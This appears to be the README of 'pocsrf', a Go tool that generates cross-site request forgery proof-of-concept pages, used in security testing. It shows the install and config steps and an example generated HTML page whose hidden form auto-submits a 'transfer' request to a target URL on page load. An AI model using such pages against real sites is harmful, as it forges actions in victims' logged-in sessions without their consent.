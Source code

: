 # pocsrf
Yet another csrf generator.

# Installation
```bash
$ git clone https://github.com/lateralusd/pocsrf.git && cd ./pocsrf
$ go build
$ ./pocsrf -help
generate html template

Usage:
  pocsrf [command]

Available Commands:
  gen         generate sample config file
  help        Help about any command
  run         create html file

Flags:
  -h, --help   help for pocsrf

Use "pocsrf [command] --help" for more information about a command.
```

# Usage
You can use it as a standalone binary, or as a library.

## Standalone binary

First generate config file and fill it accordingly.

```bash
$ ./pocsrf gen 
File cfg.yaml created successfully
$ cat cfg.yaml
url: https://www.google.com
method: POST
headers:
    - 'Content-Type: application/json'
    - 'X-Requested-With: XMLHttpRequest'
body: action=transfer&amount=15
```

* `headers` field will be used for json POC and they have to be comma separated
* `body` will contain the body of request, either json or good ol http post body

After you have edited config file, all you need to do is is call `pocsrf run -i <configFilename.yaml> -o output.html -j`

In our case:
```bash
$ pocsrf run -i cfg.yaml -o output.html
$ cat output.html
<html>
<body>
<form action="https://www.google.com" method="POST">

<input type="hidden" name="action" value="transfer"/>
<input type="hidden" name="amount" value="15"/>

</form>
<script>
	document.forms[0].submit();
</script>
</body>
</html>
```
